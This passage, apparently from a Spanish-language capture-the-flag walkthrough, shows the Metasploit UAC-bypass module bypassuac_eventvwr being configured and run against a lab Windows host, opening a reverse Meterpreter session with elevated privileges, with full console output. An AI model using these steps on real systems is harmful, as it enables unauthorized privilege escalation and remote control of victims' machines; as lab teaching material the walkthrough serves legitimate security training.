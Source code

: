 ```bash
View the full module info with the info, or info -d command.

msf6 exploit(windows/local/bypassuac_eventvwr) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/bypassuac_eventvwr) > set LHOST 10.8.17.92
LHOST => 10.8.17.92
```

En este exploit nos pedirá el numero de la sesión de meterpreter, en este caso `1`, y la IP de nuestra máquina, en este caso `10.8.17.92`.

Importante si el puerto de escucha que anteriormente hemos configurado en el exploit no es el que está en uso, debemos cambiarlo.

```bash
msf6 exploit(windows/local/bypassuac_eventvwr) > set LPORT 9000
LPORT => 9000
msf6 exploit(windows/local/bypassuac_eventvwr) > run
[*] Started reverse TCP handler on 10.8.17.92:9000 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
[+] eventvwr.exe executed successfully, waiting 10 seconds for the payload to execute.
[*] Sending stage (177734 bytes) to 10.10.19.146
[*] Meterpreter session 2 opened (10.8.17.92:9000 -> 10.10.19.146:49256) at 2025-01-29 17:57:55 +0100
[*] Cleaning up registry keys ...

meterpreter > getuid
Server username: Dark-PC\Dark
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```
